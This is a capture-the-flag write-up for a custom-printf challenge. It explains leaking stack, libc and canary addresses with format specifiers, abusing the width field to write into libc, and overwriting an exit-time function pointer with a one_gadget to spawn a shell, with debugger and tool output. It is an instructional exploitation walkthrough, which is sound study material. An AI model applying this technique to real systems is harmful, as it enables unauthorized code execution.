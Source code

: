 For this challenge, we are given a binary, libc, and ld. The first thing to do is use [patchelf](https://github.com/NixOS/patchelf) so that the binary will be loaded with the correct linker/libc combination. Once this is done, I checked the security levels for the program with checksec. 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
 ```
 Okay, so all protections are turned on. Let's see what the program does.
 
 ```
 ./printf
 What's your name?
 Hi,
a
Do you leave a comment? 
hello
 ```
 
 This is the output by inputing "a\n" for the first prompt and "hello\n" for the second.
 
 By giving a quick glance at the binary in IDA, it is clear that the challenge is running printf on an uncontrolled user string twice. The twist here is that the printf is a custom implementation with %n disabled. Generating a leak is pretty easy by using the %lx format specifier. For example:
 
 ```
 What's your name?
%lx %lx %lx %lx
Hi,
0 7ffff7fc8580 7ffff7eee024 4
```

As you can see, we leaked some information from the stack. We are limited to 0x100 input bytes for the first format string, so by putting in a bunch of ```%lx``` tokens, we can leak the base address of the stack, libc, binary, and canary quite easily. 

Okay, with this data leaked we now need to figure out how to write. I spent a long time reversing the printf function and found two interesting things. First, the printf implementation will build the string that it eventually calls ```puts``` on in a different location than your originally provided string. Second, by using the a number after the percent format specifier (```%1000lx``` for example) we are able to adjust the stack pointer by about 1000 bytes. There is a check in the program to ensure the number we provide after the ```%``` is not negative. Thus, we cannot write up the stack and target a return pointer. 

I spent a lot of time experimenting with this by trying to use multiple ```%x``` specifiers to see if I could cause a negative number to be added to the stack pointer. Unfortunatley, this didn't work. However, I realized I was missing something. What is located past the end of the stack in the memory layout? Libc of course! So, by adjusting the number we put after the ```%``` specifier, we can obtain arbitrary write in libc. 

When ```libc_start_main``` returns, it will call the ```exit()``` function. This is important, because a bunch of function pointers are called before the process actually exits. You can check out where this is done in the source code here: [https://code.woboq.org/userspace/glibc/stdlib/exit.c.html](https://code.woboq.org/userspace/glibc/stdlib/exit.c.html). So, all we need to do is overwrite one of these function pointers and we will have control of ```rip```!

Before I did this, I checked to see if there were any useful one\_gadgets in the libc we were given. Using the awesome tool one\_gadget, was able to easily find 4!

```
one_gadget libc.so.6
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

When I first attacked a function pointer in libc, I made sure to replace it with junk (such as 'CCCCCCCC') so that I could inspect the segfault easily and see the state of the registers at the time of the crash. 
```
Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e28398 in ?? () from target:/home/a/Desktop/tokyo/libc.so.6
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────[ REGISTERS ]───────────────────────
 RAX  0x0
 RBX  0x7ffff7fc76c8 ◂— 0x4343434343434343 ('CCCCCCCC')
 RCX  0x0
 RDX  0x0
 RDI  0x555555559010 ◂— 0x0
 RSI  0x1
 R8   0x555555559008 ◂— 0x555555559008
 R9   0x7ffff7fcd540 ◂— 0x7ffff7fcd540
 R10  0x7fffffffe2b4 ◂— 0x1
 R11  0x2
 R12  0x7ffff7fc76d0 —▸ 0x7ffff7ec3383 (execvpe+979) ◂— mov    rsi, rcx
 R13  0x1
 R14  0x7ffff7fcb108 ◂— 0x0
 R15  0x0
 RBP  0x0
 RSP  0x7fffffffe3f0 ◂— 0x20786c2520786c25 ('%lx %lx ')
 RIP  0x7ffff7e28398 ◂— call   qword ptr [rbx]
────────────────────────[ DISASM ]─────────────────────────
 ► 0x7ffff7e28398    call   qword ptr [rbx]

   0x7ffff7e2839a    add    rbx, 8
   0x7ffff7e2839e    cmp    rbx, r12
   0x7ffff7e283a1    jne    0x7ffff7e28398
    ↓
 ► 0x7ffff7e28398    call   qword ptr [rbx]

   0x7ffff7e2839a    add    rbx, 8
   0x7ffff7e2839e    cmp    rbx, r12
   0x7ffff7e283a1    jne    0x7ffff7e28398
    ↓
 ► 0x7ffff7e28398    call   qword ptr [rbx]

   0x7ffff7e2839a    add    rbx, 8
   0x7ffff7e2839e    cmp    rbx, r12
─────────────────────────[ STACK ]─────────────────────────
00:0000│ rsp  0x7fffffffe3f0 ◂— 0x20786c2520786c25 ('%lx %lx ')
01:0008│      0x7fffffffe3f8 ◂— 0x120786c25
02:0010│      0x7fffffffe400 ◂— '%lx %lx '
03:0018│      0x7fffffffe408 ◂— 0x0
04:0020│      0x7fffffffe410 —▸ 0x555555556a40 ◂— push   r15
05:0028│      0x7fffffffe418 —▸ 0x5555555550d0 ◂— xor    ebp, ebp
06:0030│      0x7fffffffe420 —▸ 0x7fffffffe520 ◂— 0x1
07:0038│      0x7fffffffe428 ◂— 0x0
───────────────────────[ BACKTRACE ]───────────────────────
 ► f 0     7ffff7e28398
   f 1     7ffff7e283da
   f 2     7ffff7e07b72 __libc_start_main+242
Program received signal SIGSEGV (fault address 0x0)
```

Luckily, both RCX and RDX are NULL at the time of the crash! So, all we have to do is write the one\_gadget located at offset 0xe2383 to the location of the function pointer, 0x7ffff7fc76c8, in libc and we will get a shell!

That's it! From here, you just run the script and get a flag! TWCTF{Pudding_Pudding_Pudding_purintoehu}
